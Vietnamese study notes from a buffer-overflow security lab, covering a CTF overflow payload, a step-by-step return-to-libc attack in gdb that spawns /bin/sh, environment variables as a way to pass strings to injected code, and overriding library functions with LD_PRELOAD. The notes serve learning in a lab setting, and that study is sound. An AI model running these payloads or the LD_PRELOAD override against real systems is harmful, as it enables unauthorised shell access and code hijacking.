     +  ./ctf.out $(python -c "print('A'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")


/bin/sh -> ra dấu nhắc shell

`Return to libC`
`Idea`: Chèn địa chỉ hàm System trong libC để chèn vào return address,Chèn data vào stack là 1 chuỗi thực thi
- first step: lấy địa chỉ của system(chỉ có khi chạy chương trình, ;libC chỉ load khi chạy chương trình => cần start chương trình), tiếp theo tìm địa chỉ chuỗi /bin/sh, và hàm exit
- `gdb` command
    + sudo sysctl -w kernel.randomize_va_space=0
    + gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
    + gdb -q vuln.out
    + disas main
    + start
    + p system -> 0xf7e50db0
    + find /bin/sh -> 0xf7f71b2b
    + p exit -> 0xf7e449e0
    + exit
    + ./vuln.out $(python -c "print('A'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x2b\x1b\xf7\xf7')")
        .chèn địa chỉ system vào return address, exit vào dưới (là return address của hàm system), địa chỉ /bin/sh 

`fmtv`




`OS`
`Thay đổi biến môi trường`
- Khai báo biến shell: MYVAR=/home/quang đây là biến shell, biến shell và biến môi trường độc lập với nhau
- echo $tenbien để xem giá trị của 1 biến 
=> khi gõ lệnh seed@3a4aa23aa7cb:~/seclabs/bof$ env|grep MYVAR thì sẽ ko tìm thấy vì biến shell và biến môi trường độc lập với nhau
- env|grep HOME lọc ra trong biến môi trường có những lệnh có HOME thì lọc ra 
=> khi mở một shell mới, những biến môi trường dc copy sang, còn biến shell thì ko dc copy sang
- để tạo biến môi trường, thêm từ khóa exported 
- đây là parent process: seed@3a4aa23aa7cb:~/seclabs/bof$, đây là child process: seed@3a4aa23aa7cb:~/seclabs/bof$ /bin/dash\
    + những thay đổi trong child process sẽ ko ảnh hưởng tới parent process, child process sẽ copy những biến môi trường của parent process qua
    + ví dụ: 
        . seed@3a4aa23aa7cb:~/seclabs/bof$ /bin/dash
        . printenv lúc này biến HOME=/home/seed
        . $ HOME="myhome" thay đổi, lúc này biến HOME=myhome
        . exit và printenv thì ở process cha HOME=/home/seed, giá trị HOME ko thay đổi 
-> Trong tấn công return to libC, lấy chuỗi /bin/sh trong vùng nhớ system, tuy nhiên nếu muốn lấy một chuỗi khác và lỡ như chuỗi đó ko nằm trong system, vậy thì đây là cách để có thể đưa 1 biến ở bên ngoài vào chương trình để có thể sử dụng biến đó -> ĐÂY LÀ 1 CÁCH CHUYỀN THAM SỐ CHO INJECT CODE   


`mytest.c`
- Khi sử dụng lệnh gcc -c sleep.c, bạn chỉ yêu cầu GCC thực hiện biên dịch mã nguồn C thành file đối tượng .o (object file). Quá trình này sẽ chuyển đổi mã nguồn thành mã máy, nhưng chưa thực hiện liên kết (linking) với các thư viện hoặc thành phần khác.
- File đối tượng này có thể chứa mã nguồn của một hàm hoặc nhiều hàm, nhưng nó chưa được liên kết vào chương trình chính. Điều này có nghĩa là GCC không cần tìm hàm main() hay bất kỳ điểm khởi đầu nào. Thay vào đó, sleep.o chỉ là một phần mã máy có thể được liên kết vào chương trình khác sau này.
=> Do đó, quá trình này không cần liên kết, và việc chỉ biên dịch là đủ.
- Câu lệnh gcc -shared -o mylib.so.1.0 sleep.o biên dịch file đối tượng sleep.o thành một thư viện chia sẻ có tên là mylib.so.1.0. Thư viện chia sẻ này có thể được sử dụng bởi các chương trình khác và có thể được nạp bằng cách sử dụng cơ chế như LD_PRELOAD để ghi đè hàm sleep() chuẩn của hệ thống với hàm tùy chỉnh mà bạn đã viết trong sleep.c.
- `LD_PRELOAD` cho phép bạn tải thư viện của mình trước, ghi đè lên các hàm hệ thống chuẩn.